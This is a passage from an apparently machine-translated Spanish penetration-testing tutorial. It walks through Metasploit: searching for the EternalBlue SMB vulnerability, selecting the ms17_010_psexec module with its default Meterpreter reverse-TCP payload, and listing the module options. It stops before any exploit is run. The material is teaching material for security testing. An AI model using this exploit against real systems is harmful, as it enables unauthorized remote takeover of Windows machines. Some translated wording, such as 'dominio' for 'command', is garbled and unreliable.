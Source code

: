 Una vez que tenemos`Metasploit`Ejecutando, podemos buscar nuestra aplicación de destino con el`search exploit`dominio. Por ejemplo, podemos buscar la vulnerabilidad de SMB que identificamos anteriormente:

  Exploits públicos

```shell-session
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```

Consejo: la búsqueda puede aplicar filtros complejos como la búsqueda CVE: 2009 Tipo: Exploit. Vea todos los filtros con ayuda de ayuda

Encontramos un exploit para este servicio. Podemos usarlo copiando el nombre completo de él y usando`USE`Para usarlo:

  Exploits públicos

```shell-session
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Antes de que podamos ejecutar el exploit, necesitamos configurar sus opciones. Para ver las opciones disponibles para configurar, podemos usar el`show options`dominio:

  Exploits públicos

```shell-session
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
```